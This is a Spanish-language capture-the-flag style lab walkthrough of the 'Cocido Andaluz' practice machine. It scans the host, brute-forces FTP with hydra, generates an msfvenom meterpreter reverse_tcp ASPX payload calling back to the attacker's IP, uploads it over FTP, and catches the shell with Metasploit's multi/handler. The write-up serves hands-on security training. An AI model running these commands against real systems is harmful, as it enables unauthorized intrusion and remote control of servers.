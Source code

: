 Maquinas que voy a utilizar Kali Linux y Cocido Andaluz https://thehackerslabs.com/cocido-andaluz/

  

  

> [!important] Gran Parte de este documento es examante igual al anterior con el mismo titulo . Pero en este caso vamos a utilizar un archivo malicioso creado con msfvenom para conseguir una intrusión subiéndolo por FTP.

  

Vamos a intentar obtener **intrusión remota** en un servidor Microsoft IIS mediante un **archivo malicioso con extensión aspx**.

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 48.png|image 48.png]]

  

```Bash
ping -c 1 10.0.3.19  
```

![[Imagenes/image 1 37.png|image 1 37.png]]

El **ttl=128** nos informa que es una maquina **Windows.**

  

```Bash
nmap -p- -sS -sV -sC -min-rate=5000 -n -vvv -Pn 10.0.3.19 
```

![[Imagenes/image 2 36.png|image 2 36.png]]

  

- Provamos la IP en el navegador
    
    ![[Imagenes/image 3 35.png|image 3 35.png]]
    
      
    
- Hacemos **Fuzzing Web con la herramienta dirb.**
    
    ```Bash
    dirb http://10.0.3.19/
    ```
    
    ![[Imagenes/image 4 34.png|image 4 34.png]]
    

  

- Vamos a mirar que puede ser esto.
    
    ![[Imagenes/image 5 33.png|image 5 33.png]]
    
    Por aquí parece que no vemos nada , lo dejamos en pausa y seguimos intentándolo de otra manera.
    
      
    
- Vamos a ver de nuevo la enumeración que hemos hecho con nmap.
    
    ![[Imagenes/image 6 31.png|image 6 31.png]]
    
    Vemos que tiene abierto el **puerto 21** con un **servicio ftp**.
    
- Le vamos a hacer un ataque de fuerza bruta con **hydra** aunque no sepamos el usuario y la contraseña.
    
    ```Bash
    hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://10.0.3.19
    ```
    
    ![[Imagenes/image 7 29.png|image 7 29.png]]
    
      
    
    > [!important] Como vemos estamos usando **distintos diccionarios** para **Usuario** y para **Password**.
    

  

- Con las credenciales que hemos conseguido vamos a entrar por FTP.
    
    **También podríamos probar que no será nuestro caso como login** `**anonymous**` **y pass en blanco.**
    
    ```Bash
    ftp 10.0.3.19 
    ```
    
    ![[Imagenes/image 49.png|image 49.png]]
    
    **En algunos sitios** podemos encontrarnos con que el **contenido del FTP** esta **vinculado** al **contenido del puerto 80** (la pagina Web). Esto lo **podemos utilizar** para **subir archivos** y poder **verlos desde el navegador**.
    
      
    
- Vamos a crear un archivo malicioso con msfvenom.
    
    ```Bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 PORT 4444 -f aspx -o shell.aspx 
    ```
    
    ![[Imagenes/image 1 38.png|image 1 38.png]]
    
      
    
- Lo subimos al FTP desde el terminal conectado al FTP.
    
    `put shell.aspx`
    
    ![[Imagenes/image 2 37.png|image 2 37.png]]
    
    > [!important]
    > 
    > ### **Comandos básicos en un FTP**.
    > 
    > 1. **Navegación en Directorios:**
    >     - `ls` o `dir`: Lista los archivos y directorios en el directorio actual.
    >     - `cd [directorio]`: Cambia al directorio especificado.
    >     - `pwd`: Muestra el directorio actual.
    >     - `cd ..`: Retrocede al directorio padre.
    > 2. **Transferencia de Archivos:**
    >     - `get [archivo]`: Descarga un archivo desde el servidor al equipo local.
    >     - `mget [archivos]`: Descarga múltiples archivos a la vez.
    >     - `put [archivo]`: Sube un archivo desde el equipo local al servidor.
    >     - `mput [archivos]`: Sube múltiples archivos a la vez.
    > 3. **Gestión de Archivos:**
    >     - `delete [archivo]`: Elimina un archivo del servidor.
    >     - `rename [archivo_antiguo] [archivo_nuevo]`: Cambia el nombre de un archivo en el servidor.
    >     - `mkdir [directorio]`: Crea un nuevo directorio en el servidor.
    >     - `rmdir [directorio]`: Elimina un directorio vacío del servidor.
    > 4. **Opciones Generales:**
    >     - `quit` o `bye`: Cierra la sesión y desconecta del servidor FTP.
    >     - `help` o `?`: Muestra ayuda o información sobre comandos disponibles.
    
      
    
- Nos ponemos a la escucha con msfconsole (Metssploit)
    
    ![[Imagenes/image 3 36.png|image 3 36.png]]
    

- Nos ponemos a la escucha con Metasploit con **multi/handler**
    
    `use multi/handler`
    
      
    
- Miramos las opciones y completamos lo que necesitemos.
    
    `show options`
    
    `set LHOST 10.0.3.4`
    
    ![[Imagenes/image 4 35.png|image 4 35.png]]
    

- Ahora tenemos que tener en cuenta un detalle en el archivo malicioso usamos el Payload `windows/meterpreter/reverse_tcp` por tanto debemos cargarlo en el **multi/handler.**
    
    `set PAYLOAD windows/meterpreter/reverse_tcp`
    
    ![[Imagenes/image 5 34.png|image 5 34.png]]
    
      
    
- Vuelvo a ejecutar **show options**, vemos que se nos cargar el payload
    
    `show options`
    
    ![[Imagenes/image 6 32.png|image 6 32.png]]
    
      
    
- Ejecutamos, poniéndonos a la escucha.
    
    `run`
    
    ![[Imagenes/image 7 30.png|image 7 30.png]]
    
      
    

- Nos vamos al navegador y ejecutamos desde hay muestro archivo malicioso **shell.aspx**
    
    ![[5f06ac05-1cdb-45d0-b194-14730ffb8abd.png]]
    
- En el Metasploit se nos a abierto una sesión de meterpreter.
    
    ![[Imagenes/image 8 28.png|image 8 28.png]]
    
      
    
    - Ya que estamos en windows ejecuto una Shell. Para salir de la Shell al Meterpreter escribiremos **exit**.
        
        `shell`
        
        `whoami`
        
        `exit`
        
        ![[Imagenes/image 9 25.png|image 9 25.png]]
